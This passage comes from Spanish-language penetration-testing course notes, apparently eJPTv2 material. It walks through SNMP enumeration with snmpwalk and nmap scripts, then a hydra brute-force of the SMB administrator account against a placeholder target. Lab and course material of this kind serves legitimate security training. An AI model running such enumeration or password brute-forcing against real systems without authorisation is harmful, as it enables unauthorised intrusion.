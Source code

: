 Con las credenciales que hemos conseguido, vamos a autenticarnos con la herramienta **snmpwalk**, y debemos saber de antemano la versión de SNMP que corre en el sistema.

```bash
snmpwalk -v 1 -c public <IP_Target>
# -v version
# -c usuario
```

Nos devuelve mucha información, pero no es legible. Podemos utilizar todos los scripts de nmap y guardar los resultados en un formato que nos sea de utilidad:

```bash
nmap -sU -p 161 --script=snmp* <IP_Target> > snmp_info
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2033.png)

Tenemos muchísima información, entre la que encontramos varios usuarios, así que, vamos a usar fuerza bruta con hydra:

```bash
hydra -l administrator -P <Passwords_list> <IP_Target> smb
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2034.png)
